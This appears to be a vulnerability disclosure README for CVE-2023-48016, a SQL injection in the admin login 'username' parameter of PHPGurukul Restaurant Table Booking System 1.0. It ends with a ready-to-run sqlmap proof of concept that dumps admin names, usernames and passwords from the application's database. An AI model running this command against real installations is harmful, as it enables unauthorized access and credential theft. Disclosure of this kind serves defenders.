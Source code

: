 # CVE-2023-48016-restaurant-table-booking-system-SQLInjection
+ Exploit Author: Serhat ÇİÇEK
# Vendor Homepage
+ https://phpgurukul.com/restaurant-table-booking-system-using-php-and-mysql/
# Software Link
+ https://phpgurukul.com/restaurant-table-booking-system-using-php-and-mysql/
# Overview
+ PHPGurukul Restaurant Table Booking System 1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'username' parameter in the 'rtbs/admin/index.php' file.  This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-48016
+ Vulnerable File: /rtbs/admin/index.php
+ Parameter Name: username
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48016
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48016
# Description
+ The lack of proper input validation and sanitization on the 'username' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/cvee/resturant-table/rtbs/admin/" --data "username=admin&inputpwd=test&login=" -D rtbsdb -T tbladmin -C AdminName,AdminuserName,Password --dump`

